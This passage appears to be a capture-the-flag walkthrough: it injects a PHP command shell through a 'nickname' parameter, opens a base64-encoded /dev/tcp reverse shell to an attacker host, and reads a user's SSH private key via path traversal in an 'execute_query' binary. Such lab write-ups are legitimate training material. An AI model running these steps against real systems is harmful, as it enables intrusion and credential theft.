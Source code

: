 Let's explore again the code, this time we are going to check the *authenticate.php* and we see the parameter **nickname**.

## Exploitation
---
### Obtaining a web shell
After viewing the source codes, we noticed that we can use the **nickname** parameter to inject a php cmd shell through the request of `save_game.php`:

![cmd shell](cmd_shell.png)

We can now execute commands using the browser:

![cmd shell test](cmd_shell_test.png)

### Obtaining a reverse shell
Let's try now to get a reverse shell.

Using the web shell, we are going to execute the following:
```bash
# Execute this in your bash
echo "sh -i >& /dev/tcp/<ip>/<port> 0>&1" | base64

# Once we have the above mesage in base64, we are going to execute the following in the
# webshell
echo "..." | base64 -d | bash
```

> NOTE:
> - replace the `...` with the base64 encoded text from the first command
> - In order to execute it properly, we have to url encode the second command

If we have **netcat** listening to the port, we should get a reverse shell.
## User lateral move
---
### Obtaining access as the user *jack*
During enumeration, we found that there are 2 files in the `/opt` directory. Let's see.

After many tries, we realized that we can read files by executing the `execute_query` command:

```bash
./execute_query 5 ../.ssh/id_rsa
```

We got the rsa private key of the user jack. Let's copy and save it in our local machine.

> NOTE:
> Be careful with the id_rsa file structure. I recommend that you duplicate your own id_rsa file (the on you have locally) and modify it.

### Obtaining user flag
Now, we can access via SSH as the user jack:
